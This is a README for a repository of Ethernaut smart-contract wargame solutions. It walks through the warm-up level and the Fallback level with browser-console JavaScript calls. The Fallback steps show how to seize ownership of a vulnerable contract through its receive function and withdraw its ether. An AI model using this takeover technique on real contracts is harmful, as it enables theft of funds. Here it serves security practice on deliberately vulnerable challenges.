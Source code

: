 # Ethernaut Solutions

Solution to the Ethernaut challenges!

## 00 - Hello Ethernaut

For Reference -> [Challenge](./questions/1.Hello_Ethernaut.sol) | [Solution](./answers/1.Hello_Ethernaut.js)

This one's a warm-up. All you have to do is call `info()`, if still confused then check the solution.

## 01 - Fallback

For Reference -> [Challenge](./questions/2.Fallback.sol) | [Solution](./answers/2.Fallback.js)

Here I used the browser's console to solve this challenge. We are going to take the advantage of `receive` function after which some ether could be sent to the contract and we will become the owner.

1. First, let's contribute a small amount less than 0.001 ether after converting ether to wei using `toWei` function within the console itself.

```javascript
    toWei(".0001") // 100000000000000

    await contract.contribute({value: 100000000000000})
```

2. Now, send some ether into the contract by taking advantage of the `receive` function.

```javascript
    await contract.sendTransaction({value: 1})
```

3. Finally, check for the owner whether it's you or not and upon confirmation withdraw the funds

```javascript
    await contract.owner()
    await contract.withdraw()
```

4. At last submit the instance

## Contributing

Contributions to the Ethernaut_Practice project are welcome! If you have a solution to a challenge that is not yet included, or if you have suggestions for improvements, feel free to open a pull request.
